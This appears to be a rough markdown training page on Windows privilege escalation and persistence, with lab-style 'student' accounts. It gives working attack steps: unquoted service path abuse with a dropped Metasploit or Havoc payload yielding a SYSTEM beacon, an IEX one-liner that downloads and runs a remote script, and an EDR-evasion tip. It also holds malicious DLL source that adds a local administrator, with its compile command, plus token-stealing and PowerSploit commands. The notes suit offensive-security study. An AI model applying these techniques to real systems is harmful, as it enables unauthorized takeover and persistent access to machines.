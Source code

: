 # Privilege Escalation / Persistence

In order to escalate privilege from a regular user to a higher level account (Administrator/System Authority), you need either a `misconfiguration` (typically permission issues on services, scheduled tasks etc...) or an `exploit` (Remote/Rogue/Sweet/Rotten/Juicy/God Potato etc..) - a properly patched and configured system will provide challenges to escalte privileges from a standard user to a administrator user. 

That being said, there are numerous techniques to obtain hashes/passwords, that don't requite administrator privileges - such as `kerberoasting`, `ntlm relaying` and `password spraying`.

# What is SeDebugPrivilege?

SeDebugPrivilege is a special privilege in Windows that allows a user or process to debug other processes, even those running under different security contexts or with higher privileges, such as system services. This privilege is part of Windows' security model, which uses privileges to control what actions a user or process can perform on the system.

## Key Points About SeDebugPrivilege

### Purpose:
- By default, users can only debug processes they own (i.e., processes they started or are running under their user account).
- SeDebugPrivilege extends this capability, allowing a process or user with this privilege to:
  - Attach a debugger to,
  - Inspect, or
  - Modify any process on the system, including those running as other users or as the SYSTEM account (a highly privileged account in Windows).

### How It Works:
- The privilege is managed through Windows security policies and can be assigned or revoked by an administrator.
- It is typically enabled for members of the Administrators group by default on many Windows systems, but this can be changed via Group Policy Objects (GPOs) or local security policies.
- To use SeDebugPrivilege, a process must explicitly request it using Windows API functions like `LookupPrivilegeValue` and `AdjustTokenPrivileges`. This involves:
  - Obtaining a handle to the process token.
  - Enabling the privilege.

> **Default Settings**: On many Windows versions (e.g., Windows 10), it’s assigned to the Administrators group by default, which can be risky if not properly managed. Even with SeDebugPrivilege, some actions (like injecting into a SYSTEM process) may still fail if other security mechanisms, such as User Account Control (UAC) or additional restrictions, are in place. Administrators can control SeDebugPrivilege through the Local Security Policy editor (secpol.msc) or Group Policy Management Editor. It is listed under "User Rights Assignment" as "Debug programs". To enable or disable it, an administrator can modify the security policy to add or remove user groups (e.g., Administrators) from having this privilege.


# UNQUOTED SERVICE PATH

- AlwaysInstallElevated (MSI)
  
- Unquoted Service Path (Services)
  - Requires missing "quotes"
  - and whitespaces in the path
  - write permission in the (sub)folder that holds the service binary

To exploit, the exe needs to be named after the directory it's in, i.e:

---  

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services

- Create folders "C:\MyPrograms\Vulnerable Service\service.exe
- create pingservice in vs2019

-> C:\MyPrograms\`vulnerable.exe`  arguments `Service\service.exe`

By placing a malicious service exe in c:\MyPrograms\ named `vulnerable.exe`, we'll escalate privileges wo NT SYSTEM AUHTORITY (if the service is running with those privileges)

```powershell
sc create VulnService binPath= "C:\MyPrograms\Vulnerable Service\VulnService.exe"
sc qc VulnService
sc start VulnService
```

Then drop metasploit payload (renamed to Vulnerable.exe) in C:\MyPrograms.

  https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/UnquotedServicePath.md

---

Run the following tools as a regular unprivileged user (`runas /user:student powershell.exe`)

> - [+] SharpUp/Powerup
> - [+] WinPeas

### WINPEAS

Runas student (unprivileged)

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```



Use the Havoc session to upload a havoc.exe renamed to `vulnerable.exe` to the `C:\MyPrograms\Vulnerable Service\` path, and then start the VulnService, using the havoc `shell` command.

upload /opt/havoc/demonsvc.x64.exe c:\MyPrograms\Vulnerable.exe

```powershell
sc.exe start VulnService
```

> Please note that regular users can't restart services, but after a reboot this will automatically execute.

You'll now have a 2nd beacon with `NT AUHORITY\SYSTEM` privileges.


> ***IMPORTANT***: We achieve not only `Privilege Escalation`, but also `code-execution` and `persistence`!!!

# DLL Hijack/Sideloading
<https://www.bordergate.co.uk/windows-privilege-escalation/#DLL-Hijacking>
The following code can be used to create a malicious DLL:

Bring your own vulnerable signed MS binary:

OLEVIEW

Why? EDR's will check if dll's loaded by LOL windows binaries happen from the right directory - by dropping a signed binary that is not present on the file system, we evding that detection.

Additionally OLEVIEW will

```csharp
#include <windows.h>
 
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net user localadmin Password1 /add");
        system("cmd.exe /k net localgroup administrators localadmin /add");
        ExitProcess(0);
    }
    return TRUE;
}
```
Compile with:

```code
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijack.dll
```

# DLL Hijacking
onedrive -> Appdata -> cscapi.dll

https://juggernaut-sec.com/dll-hijacking/#Hijacking_the_Service_DLL_to_get_a_SYSTEM_Shell

![image](./images/dllsearch.jpg)



# SCHEDULED TASKS

```powershell
schtasks /create /tn VulnTask /tr 'c:\MyPrograms\VulnerableTask\VulnTask.exe' /sc ONSTART /RL HIGHEST /RU "Student_adm" /RP "Threathunt25" /F
```

### STEALING TOKENS
```
TokenPlayer-v0.8.exe --impersonate --pid 4536 --spawn
```

needs sedebugprivilege!
Admin in high integrity (UAC Bypass)

----
accesschk.exe -p -f -v 3356
---
https://github.com/fashionproof/EnableAllTokenPrivs/blob/master/EnableAllTokenPrivs.ps1

POWERSPLOIT

```powershell
git clone https://github.com/PowerShellMafia/PowerSploit.git
cd .\PowerSploit\Privesc\
import-module .\Privesc.psd1
get-command -module Privesc
Get-ProcessTokenPrivilege
```

login as student
powershell
Start-Process -FilePath "powershell.exe" -Verb RunAs